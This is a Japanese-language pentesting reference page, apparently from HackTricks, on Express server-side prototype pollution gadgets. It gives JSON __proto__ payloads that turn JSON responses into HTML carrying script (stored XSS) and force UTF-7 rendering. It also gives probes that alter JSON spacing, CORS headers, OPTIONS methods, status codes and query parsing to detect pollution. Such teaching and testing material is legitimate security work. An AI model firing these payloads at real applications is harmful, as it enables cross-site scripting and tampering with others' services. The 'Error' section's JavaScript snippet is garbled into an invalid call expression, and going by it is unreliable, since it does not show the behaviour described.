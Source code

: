 # Expressプロトタイプ汚染ガジェット

{{#include ../../../banners/hacktricks-training.md}}

## XSSレスポンスを提供する

**詳細については** [**元の研究を参照してください**](https://portswigger.net/research/server-side-prototype-pollution)

### JSONコンテンツタイプをHTMLに変更する

Expressアプリで**JSONコンテンツタイプのレスポンス**を使用し、JSONを反映させる：
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
これらのケースでは、JSONコンテンツタイプでは通常XSSは不可能です。しかし、プロトタイプ汚染を利用することで、**Expressを混乱させてHTMLレスポンスを提供させることができます。** この脆弱性は、アプリケーションが**`res.send(obj)`**を使用し、application/jsonコンテンツタイプでボディパーサーを使用することに依存しています。
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
**`body`** と **`_body`** プロパティを **汚染** することで、**ExpressがHTMLコンテンツタイプを提供し、** `_body` プロパティを反映させることが可能になり、保存されたXSSが発生します。

### UTF7をレンダリング

Expressが **UTF-7コンテンツをレンダリングする** ことが可能です:
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## 安全なスキャン技術

### JSONスペース

次のPPは、JSON内の属性に追加のスペースを持たせ、機能を壊さないようにします：
```json
{ "__proto__": { "json spaces": " " } }
```
その後、反射されたJSONは次のようになります:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

次のPPガジェットは、サーバーがHTTPヘッダーを返すようにします: **`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
**CORSモジュールをインストールする必要があります**

### **OPTIONSメソッド**

次のペイロードを使用すると、**OPTIONSレスポンスからメソッドを隠す**ことが可能です：
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **ステータス**

次のPPペイロードを使用して**返されるステータスコード**を変更することが可能です:
```json
{ "__proto__": { "status": 510 } }
```
### エラー

プリミティブ（例えば文字列）を使ってプロトタイプに割り当てると、**プロトタイプはオブジェクトでなければならないため、何も行わない操作が生成されます**。`Object.prototype`自体にプロトタイプオブジェクトを割り当てようとすると、**例外がスローされます**。これらの2つの動作を使用して、**プロトタイプ汚染が成功したかどうかを検出できます**：
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### 反射値

アプリケーションがレスポンスにオブジェクトを含めるとき、**`__proto__`**と一緒に**異常な名前の属性を作成すること**は洞察を与える可能性があります。特に、**異常な属性のみがレスポンスに返される**場合、これはアプリケーションの脆弱性を示している可能性があります：
```json
{ "unusualName": "value", "__proto__": "test" }
```
さらに、Lodashのようなライブラリが使用されるシナリオでは、プロトタイプ汚染（PP）を介しておよびオブジェクト内で直接プロパティを設定することが、別の診断アプローチを提供します。そのようなプロパティがレスポンスから省略されている場合、Lodashがマージする前にターゲットオブジェクト内のプロパティの存在を確認していることを示唆しています。
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## 雑多

### ドットを許可する

Expressには、**クエリ文字列パラメータからオブジェクトを作成する**オプションがあります。\
これは、**プロトタイプ汚染の脆弱性**を悪用するバグ**チェーン**で確実に使用できます。
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` はNodeでオブジェクトを作成します。**

## 参考文献

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}

